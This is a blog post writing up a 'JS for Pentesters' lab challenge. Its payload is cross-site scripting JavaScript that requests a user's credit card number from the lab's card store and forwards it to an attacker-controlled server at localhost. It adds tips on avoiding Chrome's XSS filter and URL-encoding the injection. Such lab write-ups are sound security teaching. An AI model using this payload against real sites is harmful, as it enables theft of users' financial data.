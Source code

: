 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-11-01 15:12:32+00:00
layout: post
slug: xss-ex-filtrating-data-xmlhttprequest-js-pentesters-task-15-write
title: 'XSS - Ex-filtrating data with XMLHttpRequest(): JS for Pentesters task 15
  write up '
wordpress_id: 347
categories:
- jsp
- javascript
- xss
- security-tube
summary: writeup for task-15 of the JS for pentesters series by security-tube - Ex-filtrating data with XMLHttpRequest()
---
```


Till now we have seen 2 different challenges with XMLHttpRequest() with GET request. Now let us look into a challenge were we need to post data not by GET method but by POST method. Let us look into the challenge:

[JS for Pentesters task 15](http://pentesteracademylab.appspot.com/lab/webapp/jfp/15)

Our Objective of the challenge is to Find John's Credit Card Number using an XSS vulnerability on this page and post the Credit Card Number to your Attacker Server. Here as we stated above, the key difference is that we should do a POST request to the server. Let us look into the correct payload:

{% highlight html lineos %}
    <script>
    var xhr = new XMLHttpRequest();    
    xhr.open('POST', 'http://pentesteracademylab.appspot.com/lab/webapp/jfp/15/cardstore', true);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.onload = function () {
    var request = new XMLHttpRequest();
    request.open('GET', 'http://localhost:8000/?creditcard='+xhr.responseText, true);
    request.send()
    };
    xhr.send('user=john');
    </script>
{% endhighlight %}

So what have we done above ? We have created a new `XMLHttpRequest()` object and then we opened the link by specifying the request type as POST. Then we used the setRequestHeader() so that the entire URL should be properly encoded or else it won't work. After that, its all normal procedure like we did before. A small difference is that we are declaring one more XMLHttpRequest() object inside the **onload** since we need to post it our server also. You can do that without XMLHttpRequest too but I just prefer to use it. In the `xhr.send()`, inside the brackets, we gave the POST parameters and here, it is **user=john.**

**Note:**

1) If you didn’t understand the payload properly, I strongly recommend you read the basics of [XMLHttpRequest()]({{ site.url }}/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest/) first and then try again.

2) While playing with **XSS** challenges, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt **XSS** stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

3) You have to [URL encode](http://meyerweb.com/eric/tools/dencoder/) the payload before the injection via the url parameter or else this will fail to work

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
